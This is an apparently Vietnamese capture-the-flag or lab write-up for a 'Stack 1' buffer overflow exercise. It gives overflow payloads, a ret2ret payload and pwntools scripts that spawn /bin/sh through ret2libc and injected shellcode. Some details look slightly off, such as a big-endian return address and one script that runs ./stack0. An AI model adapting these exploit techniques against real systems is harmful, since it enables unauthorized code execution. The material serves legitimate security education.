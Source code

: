 # Stack 1

## Description

![description](description.png)

Khi chạy chương trình yêu cầu truyền vào 1 argument. Chúng ta cùng xem thử qua hàm main nhé.
![main](main.png)

![main2](main2.png)

bỏ qua phần check arg vào main, chúng ta quan tâm từ main+35. Nhìn qua thì nó tương tự bài stack0, chúng ta có thể ghi đè modified, thay đổi EIP. Và modified yêu cầu một giá trị cụ thể chứ ko chỉ là khác 0 như bài trước, đó là: `0x61626364`. Và một điểm khác hàm strcpy từ arg[1] vào buf thay vì hàm gets.

## Solution

### Buffer overflow

`payload: ./stack1 $(python -c 'print "a"*64+"\x64\x63\x62\x61"')`

### Ret2ret 

cho EIP jump về  `0x080484b2`. phần padding vẫn là 80byte giống stack0.

`payload: ./stack1 $(python -c 'print "a"*80 + "\x08\x04\x84\xb2"')`

![ret2ret](ret2ret.png)

## spawn shell

bài này tương tự stack0, ta chỉ cần thay đổi script 1 chút.

### System()

```python
#!/usr/bin/python3
from pwn import *
elf = context.binary = ELF('./stack1')

#system() address
system_addr = 0xf7e11790
info('system_addr: ' + hex(system_addr))
#/bin/sh address
sh_addr = 0xf7dd0000+ 0x18e363 #base address + offset
info('sh_addr: ' + hex(sh_addr))
padding = 80*b'b' #padding tính từ phần trên
payload = padding + p32(system_addr) + p32(0xdeadbeef) + p32(sh_addr)

#run process with arg payload
p = process(['./stack1', payload])
p.interactive()
```

### inject shellcode

```python
#!/usr/bin/python3
from pwn import *
elf = context.binary = ELF('./stack1')

padding = b'a'*80
eip = p32(0xffffd250+100) # esp addr + offset nop_slide

nop_slide = b"\x90"*400

shellcode = b"jhh\x2f\x2f\x2fsh\x2fbin\x89\xe3jph\x01\x01\x01\x01\x814\x24ri\x01,1\xc9Qj\x07Y\x01\xe1Qj\x08Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80"

payload = padding + eip + nop_slide + shellcode

p = process(['./stack0', payload])
p.sendline(payload)
p.interactive()
```
